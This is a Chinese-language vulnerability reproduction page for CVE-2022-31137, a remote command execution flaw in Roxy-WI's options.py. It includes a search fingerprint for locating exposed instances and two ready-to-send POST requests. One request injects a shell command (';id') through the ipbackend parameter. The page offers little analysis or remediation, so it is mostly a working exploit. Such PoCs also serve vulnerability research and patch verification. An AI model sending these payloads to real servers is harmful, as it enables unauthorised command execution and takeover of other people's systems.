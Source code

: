 # 

# Roxy-Wi options.py 远程命令执行漏洞 CVE-2022-31137

## 漏洞描述

Roxy-Wi options.py 存在远程命令执行漏洞，攻击者通过漏洞可以执行命令获取服务器权限

## 漏洞影响

```
Roxy-WI
```

## 网络测绘

```
app="HAProxy-WI"
```

## 漏洞复现

登录页面

![image-20220824143035019](./images/202208241430258.png)

验证POC

```
POST /app/options.py
  
alert_consumer=1&serv=127.0.0.1&ipbackend=%22%3Bid+%23%23&backend_server=127.0.0.1
```

![image-20220824143046987](./images/202208241430031.png)

另一个POC

```
POST /app/options.py HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 105
Origin: https://x.x.x.x
Dnt: 1
Referer: https://x.x.x.x/app/login.py
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

alert_consumer=notNull&serv=roxy-wi.access.log&rows1=10&grep=&exgrep=&hour=00&minut=00&hour1=23&minut1=45
```


